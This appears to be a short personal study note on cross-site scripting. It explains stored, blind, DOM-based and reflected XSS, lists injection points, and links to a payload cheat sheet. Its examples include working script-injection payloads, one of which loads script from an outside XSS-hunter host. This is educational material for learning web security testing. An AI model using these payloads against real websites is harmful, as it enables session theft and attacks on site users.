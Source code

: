 # XSS (Java Script Injection):
https://www.youtube.com/watch?v=nTCDQ0UmFgE&list=TLPQMDcxMDIwMjHs2PI_2WmObA&index=10
1. Stored XSS: XSS payload is sent to the database and is called everytime a page is loaded. an easy example would be using a comment field to input your script on a forum. 
2. Blind XSS: XSS payload is stored but loads on a page you cannot see. an example might be the XSS beign stored on a moderator/admins conntrol panel. 
3. DOM based XSS: vulnerable webpages that can be manipulated to give data they shouldn't. an example would be editing the document.location to return an XSS on a webpage. https://portswigger.net/web-security/cross-site-scripting/dom-based
4. Reflected XSS: the XSS isn't stored, the output is reflected to another page for viewing. an example is a malicious link which is sent to a victim from the attacker or a form input that uses our input in the next page. 

### places to attack with xss:
1. forms
2. url
3. http headers

# Build payloads:
1. https://portswigger.net/web-security/cross-site-scripting/cheat-sheet



## things to look for in use:
```
document.location 
window.location.search
```

## Examples: 
### Stored:
```
"> <script>alert(0)</script>
"><script src=https://insider.xss.ht></script>
```
### URL:
```
?%27><script>alert(0)</script>
```



XSS hunter:  https://insider.xss.ht




